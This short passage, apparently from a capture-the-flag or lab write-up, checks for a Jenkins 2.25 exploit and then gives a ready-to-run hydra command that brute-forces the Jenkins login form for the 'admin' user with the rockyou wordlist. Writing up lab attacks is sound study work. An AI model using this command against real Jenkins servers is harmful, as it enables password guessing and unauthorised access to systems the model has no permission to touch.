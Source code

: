 ![Untitled](images/Untitled%2060.png)

There is any exploit to the Jenkins 2.25 version?

Apparently no. The default user seems to be admin, we can perform an hydra attack to check if we can bruteforce the password:

![Untitled](images/Untitled%2061.png)

```jsx
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid" -V
```
